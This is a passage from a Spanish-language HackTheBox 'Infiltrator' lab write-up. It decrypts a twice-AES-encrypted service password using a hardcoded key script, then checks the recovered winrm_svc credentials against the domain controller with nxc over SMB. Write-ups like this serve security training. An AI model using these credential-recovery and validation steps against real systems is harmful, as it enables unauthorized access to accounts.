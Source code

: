 ```python
    import sys
    if len(sys.argv) != 2:
        print("Usage: python decrypt_script.py <cipher_text>")
        sys.exit(1)
    
    cipher_text = sys.argv[1]
    
    key = "b14ca5898a4e4133bbce2ea2315a1916"  # Clave para AES
    decrypted_text = decrypt_string(key, cipher_text)
    print(f"Contraseña descifrada: {decrypted_text}")
```
{% endcode %}

Al ejecutar el script y pasarle el valor de la contraseña cifrado, verificamos que nos devolvío un string parecido a Base64. Al intentar descodificar el contenido en Base64 no nos devolvió un resultado legible.

Por lo que volvimos a ejecutar el script pero indicándole este nuevo valor obtenido. Al parecer pudimos desencriptar la contraseña cifrada y obtener la contraseña en texto plano.

```bash
❯ python decrypt.py TGlu22oo8GIHRkJBBpZ1nQ/x6l36MVj3Ukv4Hw86qGE=
Contraseña descifrada: SKqwQk81tgq+C3V7pzc1SA==
❯ echo 'SKqwQk81tgq+C3V7pzc1SA==' | base64 -d; echo
H��BO5�
�
 u{�75H
❯ python decrypt.py SKqwQk81tgq+C3V7pzc1SA==
Contraseña descifrada: WinRm@$svc^!^P
```

Validamos que efectivamente estas credenciales son válidas para el usuario `winrm_svc@infiltrator.htb`.

```bash
❯ nxc smb dc01.infiltrator.htb -u 'winrm_svc' -p 'WinRm@$svc^!^P' -k
SMB         dc01.infiltrator.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         dc01.infiltrator.htb 445    DC01             [+] infiltrator.htb\winrm_svc:WinRm@$svc^!^P 
```

### Logging in winrm\_svc in Output Messenger

Probaremos de acceder a `Output Messenger` con las credenciales recién obtenidas.

<figure><img src="../../.gitbook/assets/imagen (192).png" alt=""><figcaption></figcaption></figure>
